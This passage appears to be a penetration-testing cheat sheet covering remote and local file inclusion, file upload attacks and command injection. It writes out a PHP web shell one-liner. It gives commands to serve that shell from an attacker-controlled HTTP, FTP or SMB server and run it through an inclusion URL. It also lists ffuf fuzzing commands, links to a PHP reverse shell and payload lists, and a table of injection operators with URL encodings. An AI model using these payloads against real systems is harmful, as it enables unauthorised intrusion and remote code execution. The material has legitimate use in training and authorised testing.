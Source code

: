     - echo '<?php system($_GET["cmd"]); ?>' > shell.php
    - sudo python3 -m http.server <LISTENING_PORT>
    - http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id
    - FTP
        - sudo python -m pyftpdlib -p 21
        - http://<SERVER_IP>:<PORT>/index.php?language=ftp://<OUR_IP>/shell.php&cmd=id
    - SMB
        - impacket-smbserver -smb2support share $(pwd)
        - http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\share\shell.php&cmd=whoami
- LFI and File Uploads
    - FIle upload
    - Zip Upload
    - Phar upload
- Log Poisoning
- Automated scanning
    - Parameter
        - ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
    - LFI wordlist
        - ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
    - ffuf -w /opt/useful/SecLists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php' -fs 2287
    - ffuf -w ./LFI-WordList-Linux:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ' -fs 2287

## File Upload Attacks

- File Upload Attacks
    - phpbash.php
    - https://github.com/pentestmonkey/php-reverse-shell
- Fuzzing extension
- Double Extensions
    - [https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/web-extensions.txt)
    - [https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload Insecure Files/Extension PHP/extensions.lst](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Upload%20Insecure%20Files/Extension%20PHP/extensions.lst)
    - [https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt](https://github.com/danielmiessler/SecLists/blob/master/Miscellaneous/web/content-type.txt)

## Command Injections

| Injection Operator | Injection Character | URL-Encoded Character | Executed Command |
| --- | --- | --- | --- |
| Semicolon | ; | %3b | Both |
| New Line | \n | %0a | Both |
| Background | & | %26 | Both (second output generally shown first) |
| Pipe | | | %7c | Both (only second output is shown) |
| AND | && | %26%26 | Both (only if first succeeds) |
| OR | || | %7c%7c | Second (only if first fails) |
| Sub-Shell | `` | %60%60 | Both (Linux-only) |
| Sub-Shell | $() | %24%28%29 | Both (Linux-only) |

